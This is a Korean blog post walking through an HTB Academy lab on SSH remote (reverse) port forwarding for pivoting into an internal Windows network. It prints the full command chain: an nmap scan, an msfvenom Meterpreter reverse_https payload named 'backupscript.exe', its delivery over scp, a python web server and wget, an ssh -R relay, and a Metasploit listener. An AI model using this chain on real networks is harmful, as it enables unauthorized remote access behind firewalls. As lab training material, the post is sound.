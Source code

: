 ```yaml
---
title: "Remote(Reverse) Port Forwarding"
date: 2025-09-29
layout: single
author_profile: true
excerpt: "**Remote(Reverse) Port Forwarding**은 로컬에서 실행 중인 서비스를 원격 SSH 서버의 특정 포트에 바인딩하여, 원격 네트워크 또는 내부망 호스트가 그 포트를 통해 해당 서비스에 접근할 수 있게 하는 기술이다. 공격자는 SSH의 `-R` 옵션으로 피벗 호스트에 리스닝 포트를 생성하고, 이를 통해 NAT/방화벽으로 인해 직접 라우팅이 불가능한 환경에서 **역방향 연결(예: 리버스 셸)** 을 중계할 수 있다. 이 기법은 파일 전송, 원격 명령 실행, Meterpreter 같은 리버스 세션 확보 등 직접 접속이 어려운 내부 자원에 대한 접근을 가능하게 해 자주 활용된다."
toc: true
toc_label: "Remote Port Forwarding"
toc_icon: "network-wired"
toc_sticky: true
tags: [networking, ssh, tunneling, pivoting, reverse]
categories: [network]
header:
  teaser: /assets/network-screenshots/remote-port-forwarding/remote-port-forwarding.png
  teaser_home_page: true
---
```


**Remote(Reverse) Port Forwarding**은 로컬에서 실행 중인 서비스를 원격 SSH 서버의 특정 포트에 바인딩하여, 원격 네트워크 또는 내부망 호스트가 그 포트를 통해 해당 서비스에 접근할 수 있게 하는 기술이다. 

공격자는 SSH의 `-R` 옵션으로 피벗 호스트에 리스닝 포트를 생성하고, 이를 통해 NAT/방화벽으로 인해 직접 라우팅이 불가능한 환경에서 **역방향 연결(예: 리버스 셸)** 을 중계할 수 있다. 

이 기법은 파일 전송, 원격 명령 실행, Meterpreter 같은 리버스 세션 확보 등 직접 접속이 어려운 내부 자원에 대한 접근을 가능하게 해 자주 활용된다.

---

# Remote(Reverse) Port Forwarding

공격 호스트(`10.10.15.5`)는 **Ubuntu 서버**(`10.129.15.50`, `172.16.5.129`)에 SSH 접속이 가능하며,  
Ubuntu 서버를 통해 내부망 Windows 호스트(`172.16.5.19`)의 RDP 서비스에 접근할 수 있다.

![Remote Port Forwarding Diagram](/assets/network-screenshots/remote-port-forwarding/remote-port-forwarding.png)

그러나 Windows 호스트는 **공격 호스트(10.10.x.x)** 와 직접 라우팅이 불가능하다.  
따라서 Windows에서 **공격 호스트로 직접 Reverse Shell**을 보낼 경우 트래픽이 도달하지 못한다.

- Windows 호스트는 `172.16.5.0/23` 네트워크 안에만 트래픽을 보낼 수 있다.
- 공격자는 `10.129.x.x` (HTB Academy Lab) 네트워크에 있으며, Windows → 공격 호스트 직접 통신이 불가능하다.
- 단순 RDP 세션만으로는 **파일 업로드/다운로드** 또는 **Meterpreter 세션** 확보가 어렵다.

이러한 상황에서는 **공격자 → Ubuntu → Windows** 방향이 아닌  
**Windows → Ubuntu → 공격자** 순으로 트래픽을 **역방향(Reverse)** 으로 전달해야 한다.

---

# 실습

## Portscan

대상 Host(`10.129.243.159`)에 대해 기본 스크립트와 서비스 버전 탐지를 수행하였다.

```bash
$ nmap -sC -sV 10.129.243.159 

Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-29 20:10 EDT
Nmap scan report for 10.129.243.159
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.55 seconds
```

Nmap 스캔 결과 `SSH(22)`, `http(80)` 등 서비스가 확인되었다.

## 동적 포트 포워딩을 이용한 SSH 접속

Dynamic Port Forwarding 관련 절차는 별도 포스트에 있습니다 → [Dynamic Port Forwarding 포스트 보기](../dynamic-port-forwarding).

우선 문제에서 제공한 아이디/비밀번호(`ubuntu:HTB_@cademy_stdnt!`) 를 이용하여 **동적 포트 포워딩**을 이용한 SSH 접속에 시도하였다.

```bash
$ ssh -D 9050 ubuntu@10.129.243.159
```

접속 후, `ifconfig` 명령어를 통하여 내부망 인터페이스를 확인하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/ifconfig.png)

그 결과 내부망 IP 주소 `172.16.5.129` 를 확인할 수 있었다.

## msfvenom Windows Payload

로컬 호스트에서 Windows용 Meterpreter 페이로드를 생성하기 위해 `msfvenom` 명령어를 사용하였다.

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

생성한 파일은 `scp` 명령을 이용해 **SSH 내부망 인터페이스**로 전송하였다.

```bash
scp backupscript.exe ubuntu@10.129.243.159:/home/ubuntu
```

## RDP 연결 && 스크립트 파일 전달

문제에서 제공된 RDP 계정(`victor:pass@123`)을 이용해 **proxychains**를 통해 내부망 RDP에 접속하였다.

```bash
$ proxychains xfreerdp3 /v:172.16.5.19 /u:victor /p:pass@123
```

이후, SSH 세션에서 `python` 내장 웹서버를 실행하여 파일 전송용 HTTP 서비스를 열었다.

```bash
$ python3 -m http.server 9999
```

Windows RDP 세션에서 `wget` 명령을 사용해 `backupscript.exe` 파일을 다운로드하였다.

```powershell
wget http://172.16.5.129:9999/backupscript.exe -o backupscript.exe
```

성공적으로 파일을 다운로드하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/rdp-wget.png)

## Remote Port Forwarding

이후, Ubuntu 서버를 중계(pivot) 호스트로 사용하기 위해 `ssh -R` 명령어를 실행하였다.

```bash
$ ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.243.159 -vN

# (-v : verbose, -N : no command)
```

명령 실행 후, Metasploit의 `msfconsole`을 실행하여 리버스 연결을 수신할 리스너를 설정하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/msfconsole.png)

이후 RDP 세션으로 돌아가 다운로드한 `backupscript.exe` 파일을 실행하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/rdp-remote-success.png)

잠시 후, Metasploit에서 `meterpreter` 세션이 활성화되었고
`ls` 명령어를 통해 **내부 파일/디렉터리 열람이 가능함을 확인**하였다.

이를 통해 RDP 환경에서 **원격 코드 실행(Remote)** 이 성공했음을 검증할 수 있었다.

## Flag 획득

Desktop으로 이동 후 `flag.txt` 파일 내용을 읽어 플래그를 획득하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/flag.png)

이로써 **Remote(Reverse) Port Forwarding** 실습을 마무리하였다.

